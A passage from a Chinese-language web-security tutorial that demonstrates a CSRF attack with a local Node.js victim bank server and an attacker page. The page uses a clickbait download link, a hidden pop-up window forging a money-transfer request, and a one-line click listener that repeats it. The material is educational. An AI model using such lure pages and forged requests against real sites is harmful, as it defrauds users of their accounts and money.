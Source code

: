 ```js
        account[to] += money
        const str = `${from}向${to}转账成功，金额${money}`
        console.log(str)
        res.end(str)
        break
      default:
        res.end('404')
    }
  },
  '127.0.0.1:4000': (req, res) => {
    res.end(`
<div id="el">
  <p>5G高清美女照片，赶快<a href="javascript:transfer()">点击下载</a>吧！</p>
  <img id="img" width="300" src="http://img.zlib.cn/beauty/1.jpg" />
</div>
<script>
  function transfer() {
    open('http://localhost:3000/transfer?to=hacker&money=100', '', 'width=300,height=100,left=5000,top=5000')
    const h2 = document.createElement('h2')
    h2.innerHTML = '不该点的链接不要点，贪婪是原罪！'
    el.appendChild(h2)
  }
</script>`)
  },
}

function onRequest(req, res) {
  const { url, headers } = req // 获取 url 和 headers
  const cookies = qs.parse(headers.cookie, '; ') // 从 headers 中解析出 cookies 对象
  const { query, pathname: path } = URL.parse(url, true) // 从 url 中解析出 query 和 path 对象
  Object.assign(req, { query, path, cookies }) // 扩展 req
  const route = routes[headers.host] // 根据 host 分发路由（策略模式）
  res.setHeader('content-type', 'text/html;charset=utf-8')
  if (route) return route(req, res)
  res.statusCode = 404 && res.end('Not Found')
}

http.createServer(onRequest).listen(3000) // 被攻击的网站
http.createServer(onRequest).listen(4000) // 攻击者的网站
```

可以看到，代码里面的 Cookie 已经被设置成 httpOnly 的了，也就是说即使被 XSS 攻击也获取不到 Cookie，但是 CSRF 攻击的目的并非获取 Cookie，而是利用浏览器会自动携带 Cookie 的机制，从而伪造用户身份，向目标网站发起请求。

另外，需要注意的是，只要用户进入了第三方网站，CSRF 攻击其实就已经发生了，你可能会问：如果用户不点击上面那个诱导链接的话，不就没有发跨站请求吗？想法太天真了，都已经进入黑客的网站了，岂有让你走的道理，一行 JS 代码搞定：

```js
document.body.addEventListener('click', transfer)
```

页面随便哪里点一下，就转账一次，看你往哪跑？


[xss-attack-juejin]: https://juejin.im/post/6867184627393265677
[same-site-ryf]: http://www.ruanyifeng.com/blog/2019/09/cookie-samesite.html